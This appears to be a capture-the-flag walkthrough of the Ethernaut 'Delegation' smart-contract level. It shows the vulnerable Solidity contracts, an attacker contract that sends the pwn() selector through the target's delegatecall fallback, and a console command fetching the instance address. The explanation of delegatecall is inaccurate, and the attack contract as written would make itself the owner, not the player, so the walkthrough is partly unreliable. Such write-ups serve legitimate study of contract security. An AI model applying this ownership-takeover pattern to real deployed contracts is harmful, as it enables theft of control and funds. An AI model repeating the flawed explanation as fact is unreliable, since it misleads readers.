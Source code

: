 <img src="https://ethernaut.openzeppelin.com/imgs/BigLevel6.svg">

## Target Contract Review

Given contract.

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.6.0;

contract Delegate {

  address public owner;

  constructor(address _owner) public {
    owner = _owner;
  }

  function pwn() public {
    owner = msg.sender;
  }
}

contract Delegation {

  address public owner;
  Delegate delegate;

  constructor(address _delegateAddress) public {
    delegate = Delegate(_delegateAddress);
    owner = msg.sender;
  }

  fallback() external {
    (bool result,) = address(delegate).delegatecall(msg.data);
    if (result) {
      this;
    }
  }
}
```

Challenge's message.

> The goal of this level is for you to claim ownership of the instance you are given.

If we scrutinise contracts, there is only variable named owner in the **Delagate** contract and in the **Delagation** contract has owner and delegate variable. What is more , there is  a ```fallback()``` function which is exploitable. As long as we call fallback function with Delegate's function name, we can change some value. :) Let's do it!

## Subverting

In the fallback function there is calling some data from Delegate contract with ```delegatecall``` method. Shortly, **delegate** is a low level function similar to **call**. When contract **Delegation** executes delegatecall to contract **Delegate**, **Delegate**'s code is executedwith contract **Delegation**s storage, **_msg.data_**.

My attack contract.

```solidity
pragma solidity ^0.6.0;

import './Delegation.sol';

contract Attack{

    address public targetcontract;

    constructor(address _target)public{
        	targetcontract = _target;
    }

    function attack()public{
        targetcontract.call(abi.encodeWithSignature("pwn()"));
    }
}
```
For this part form of hacking, I should explain what I am doing. In first, I need get some information about contract such as contract address why will call it in attack function. Afterwards, I am calling fallback() from Delegation contract and it will call pwn() function from Delegate contract. In other saying, I am selecting pwn() function under favour of ```abi.enodeWithSignature```. The truth of the matter is that the delegatecall function returns a storage value from the called address, so when we call the pwn function, the contract will update us as the new owner, which will solve the question.

Learn contract address at first.

```shell
await instance
'0xf501D64dC0eff953cddCD8270f20f711A7aCF31E'
```
Deploy contract with contract address.
<img src="">
